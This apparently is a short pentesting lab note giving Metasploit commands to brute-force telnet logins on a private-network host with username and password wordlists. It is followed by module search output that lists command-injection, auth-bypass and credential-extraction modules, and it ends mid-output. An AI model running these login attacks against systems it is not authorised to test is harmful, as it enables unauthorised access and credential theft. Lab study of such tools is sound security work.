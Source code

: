 
# NOTE:save above credentials to user.txt & pass.txt



*using msf to exploit


# msfconsole
# search telnet login
# use auxiliary(scanner/telnet/telnet_login) or use 5
# show options
# set RHOSTS 192.168.0.101
# set USER_FILE /root/NetworkPentesting/telnet/user.txt
# set PASS_FILE /root/NetworkPentesting/telnet/pass.txt
# set STOP_ON_SUCCESS true
# exploit



- full POC:
---------------

msf6 > search telnet login

Matching Modules
================

   #  Name                                                              Disclosure Date  Rank       Check  Description
   -  ----                                                              ---------------  ----       -----  -----------
   0  auxiliary/scanner/telnet/brocade_enable_login                                      normal     No     Brocade Enable Login Check Scanner
   1  exploit/linux/http/huawei_hg532n_cmdinject                        2017-04-15       excellent  Yes    Huawei HG532n Command Injection
   2  auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass  2021-09-06       normal     Yes    Netgear PNPX_GetShareFolderList Authentication Bypass
   3  exploit/unix/misc/polycom_hdx_auth_bypass                         2013-01-18       normal     Yes    Polycom Command Shell Authorization Bypass
   4  exploit/solaris/telnet/ttyprompt                                  2002-01-18       excellent  No     Solaris in.telnetd TTYPROMPT Buffer Overflow
   5  auxiliary/scanner/telnet/telnet_login                                              normal     No     Telnet Login Check Scanner
   6  post/windows/gather/credentials/mremote                                            normal     No     Windows Gather mRemote Saved Password Extraction
